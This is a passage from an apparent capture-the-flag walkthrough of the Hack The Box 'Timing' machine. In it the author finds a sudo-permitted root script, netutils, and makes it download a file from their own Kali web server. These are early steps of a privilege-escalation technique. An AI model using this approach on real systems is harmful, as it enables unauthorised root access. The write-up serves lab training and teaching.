 ```
aaron@timing:~$ file /usr/bin/netutils
/usr/bin/netutils: Bourne-Again shell script, ASCII text executable

aaron@timing:~$ cat /usr/bin/netutils
#! /bin/bash
java -jar /root/netutils.jar

```

This shell script runs a Java application in the root folder, and we can run it as root without a password. Sounds interesting, let’s have a look what it does:

```
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >>

```

We have two options with this util, FTP or HTTP, whichever you pick it then asks for a file. This can be hosted remotely, so let’s start a webserver on Kali first:

```
┌──(root💀kali)-[~/htb/timing]
└─# python3 -m http.server 80

```

Now switch back to the box and try to grab a file from Kali:

```
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 0
Enter Url+File: 10.10.14.12/pencer.jpg

```

I tried grabbing that fake jpg we made earlier using FTP but nothing happened. Checking my webserver on Kali there was no connection attempt. Let’s try http:

```
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.14.12/pencer.jpg
Initializing download: http://10.10.14.12/pencer.jpg
File size: 28 bytes
Opening output file pencer.jpg
Server unsupported, starting from scratch with one connection.
Starting download
Downloaded 28 byte in 0 seconds. (0.27 KB/s)

```
